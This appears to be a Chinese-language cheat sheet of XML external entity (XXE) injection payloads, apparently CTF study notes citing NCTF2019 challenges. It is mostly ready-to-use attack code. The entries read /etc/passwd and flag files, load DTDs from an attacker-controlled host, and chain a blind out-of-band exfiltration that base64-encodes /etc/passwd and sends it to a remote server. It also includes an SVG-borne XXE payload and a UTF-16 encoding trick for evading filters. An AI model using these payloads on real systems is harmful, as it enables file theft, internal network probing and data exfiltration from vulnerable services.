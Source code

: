[[toc]]
# XXE/XML实体注入

1. 修改 Content-Type:application/xml
2. GET -> POST

绕过 -- XXE编码转换成utf-16编码绕过
```
iconv -f utf8 -t utf-16 2.xml>1.xml
```

[初识XXE漏洞](https://blog.csdn.net/weixin_39997829/article/details/79654861) 抓包看是否解析了xml内容, 如果可控。可能存在xxe

## 格式
```xml
<!ENTITY % 实体名称 "实体的值"> 
<!ENTITY % 实体名称 SYSTEM "URI/URL">
```

下面的xxe要和上面的对应
```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<user><username>&xxe;</username><password>a</password></user>
```
## 引入代码1
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```
注意上admin前有&


```xml
<?xml version="1.0" ?>
<!DOCTYPE fumo [
<!ENTITY a SYSTEM "file:///flag" >
]>
<fumo><web>&a;
</web></fumo>
```

## 引入代码2
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://10.164.75.2">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```

## 引入代码3
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://10.164.75.2/evil.dtd">
]>
<c>&b;<c>
```
evil.dtd内容
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

## 引入代码3-1

```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://10.164.75.2/evil.dtd">
<c>&b;<c>
```
evil.dtd内容
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
## 引入代码4 - 数据不回显时,发送到远程服务器
```php
<?php
$xml=EOF
<?xml version="1.0"?>
<!DOCTYPE ANY [
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://192.168.1.122/evil.dtd">
%dtd;
%send;
]>
EOF;
$data = simplexml_load_string($xml);
#print_r($data);
```
远程 evil.dtd
```xml
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://192.168.1.122/?%file;'>"
>
%all;
```
## svg xxe

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="640px" height="480px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd" >]> <svg>&xxe;</svg>
```
## 实例

https://www.hetianlab.com/cour.do?w=1&c=CCID2d51-5e95-4c58-8fc9-13b1659c1356

buuoj [NCTF2019]Fake XML cookbook

buuoj [NCTF2019]True XML cookbook